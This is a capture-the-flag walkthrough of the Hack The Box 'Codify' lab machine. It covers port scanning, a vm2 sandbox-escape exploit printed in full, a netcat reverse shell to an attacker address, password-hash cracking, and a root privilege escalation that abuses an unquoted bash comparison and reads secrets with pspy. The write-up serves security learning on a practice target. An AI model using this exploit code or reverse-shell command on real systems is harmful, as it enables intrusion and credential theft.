- Machine Name: Codify
- OS Type: Linux
- Difficulty: Easy

### Port Scanning - Service & Version Enumeration

```bash
# Nmap 7.94SVN scan initiated Fri Apr 18 08:02:50 2025 as: /usr/lib/nmap/nmap -sVC -p- --open -oN initial/nmap.out -vv 10.10.11.239
Nmap scan report for 10.10.11.239
Host is up, received echo-reply ttl 63 (0.28s latency).
Scanned at 2025-04-18 08:02:51 EDT for 109s
Not shown: 65518 closed tcp ports (reset), 14 filtered tcp ports (no-response)
Some closed ports may be reported as filtered due to --defeat-rst-ratelimit
PORT     STATE SERVICE REASON         VERSION
22/tcp   open  ssh     syn-ack ttl 63 OpenSSH 8.9p1 Ubuntu 3ubuntu0.4 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey: 
|   256 96:07:1c:c6:77:3e:07:a0:cc:6f:24:19:74:4d:57:0b (ECDSA)
| ecdsa-sha2-nistp256 AAAAE2VjZHNhLXNoYTItbmlzdHAyNTYAAAAIbmlzdHAyNTYAAABBBN+/g3FqMmVlkT3XCSMH/JtvGJDW3+PBxqJ+pURQey6GMjs7abbrEOCcVugczanWj1WNU5jsaYzlkCEZHlsHLvk=
|   256 0b:a4:c0:cf:e2:3b:95:ae:f6:f5:df:7d:0c:88:d6:ce (ED25519)
|_ssh-ed25519 AAAAC3NzaC1lZDI1NTE5AAAAIIm6HJTYy2teiiP6uZoSCHhsWHN+z3SVL/21fy6cZWZi
80/tcp   open  http    syn-ack ttl 63 Apache httpd 2.4.52
| http-methods: 
|_  Supported Methods: GET HEAD POST OPTIONS
|_http-server-header: Apache/2.4.52 (Ubuntu)
|_http-title: Did not follow redirect to http://codify.htb/
3000/tcp open  http    syn-ack ttl 63 Node.js Express framework
|_http-title: Codify
| http-methods: 
|_  Supported Methods: GET HEAD POST OPTIONS
Service Info: Host: codify.htb; OS: Linux; CPE: cpe:/o:linux:linux_kernel

Read data files from: /usr/share/nmap
Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
# Nmap done at Fri Apr 18 08:04:40 2025 -- 1 IP address (1 host up) scanned in 110.47 seconds
```

## Enumeration

### Port 80/HTTP

port 80 is open on target machine, let’s visit the website in firefox



Uh! so it requires hostname, let’s edit /etc/hosts file and add the codify.htb points to 10.10.11.239

after editing refresh the page



Ok so the website allows users to run their code in sandbox environment, let’s check it



let’s run the feroxbuster for files/directories fuzzing



we found interesting /limitations endpoint let’s navigate to /limitations



so it says some modules have been restricted to import and given the list of the whitelisted modules, it can be useful to search for specific module related code execution or exploit

whitelisted modules are:

```
url
crypto
util
events
assert
stream
path
os
zlib
```

we can use os module to retrieve hostname using below code

```jsx
const os = require('node:os');
console.log("Hostname: " + os.hostname());
```



clicking on the About Us page we found the sandboxing library name used by the application



[https://github.com/patriksimek/vm2/releases/tag/3.9.16](https://github.com/patriksimek/vm2/releases/tag/3.9.16)

searching on google i found the sandbox escape vulnerability 

https://www.exploit-db.com/exploits/51898

```jsx
const { VM } = require("vm2");
const vm = new VM();

const command = 'id'; // Change to the desired command

const code = `
async function fn() {
    (function stack() {
        new Error().stack;
        stack();
    })();
}

try {
    const handler = {
        getPrototypeOf(target) {
            (function stack() {
                new Error().stack;
                stack();
            })();
        }
    };

    const proxiedErr = new Proxy({}, handler);

    throw proxiedErr;
} catch ({ constructor: c }) {
    const childProcess = c.constructor('return process')().mainModule.require('child_process');
    childProcess.execSync('${command}');
}
`;

console.log(vm.run(code));
```

above code will escape the sandbox environment and run command through child_process module



Bingo!! it executed the command - `id` let’s get shell using `busybox nc 10.10.14.17 443 -e /bin/bash` and start listener on port 443 using `rlwrap -r nc -nvlp 443` 



great we now have a shell, let’s get proper tty shell using,

```jsx
python3 -c 'import pty;pty.spawn("/bin/bash");'
```

after gaining proper shell we start enumerating the system we found interesting /var/www/contact folder



it contains the sqlite database file let’s open databse using `sqlite3 tickets.db` command

to view the tables in the database use `.tables` 



we found users table, use `select * from users;` and we found joshua user’s password

i’ll use john to crack the hash

```jsx
john joshua.hash --wordlist=/usr/share/wordlists/rockyou.txt
```



nice we got the password for joshua user, let’s ssh to the machine

```jsx
ssh joshua@10.10.11.239
```



after gaining access as joshua i’ll first check the sudo permissions using `sudo -l` command



we don’t have the write permissions to [mysql-backup.sh](http://mysql-backup.sh) file, let’s read the code of the script



Now when analyzing the file i found that the if-statement code block is not secure and can be bypass

now reading further i found that while comparing variable values in bash if the variable is not quoted then bash treats as the pattern matching instead of exect string matching so the thing is **if you don't quote the variables , they will be compare as pattern and not as string**, so the comparison can result true for example if the value of the a variable is anything like “_0xh3x” and the b variable can be the pattern or regex character ” * “ (wildcard) so this can **cause bypassing of the if condition** 

let’s check this i’ll provide the password `*` and see if it bypass or not



and yes we can!! do the the so called `bypassing` of the password checking!!

now we bypassed the password so all commands get executed and we can monitor processes using pspy64 to get the db password

launch another session and load the pspy and execute the script



who says if you store passwords in the ENV vars hacker can’t see it we can!! 😈

let’s use this password for root and if not works i’ll use it to connect to mysql



and we are ROOT!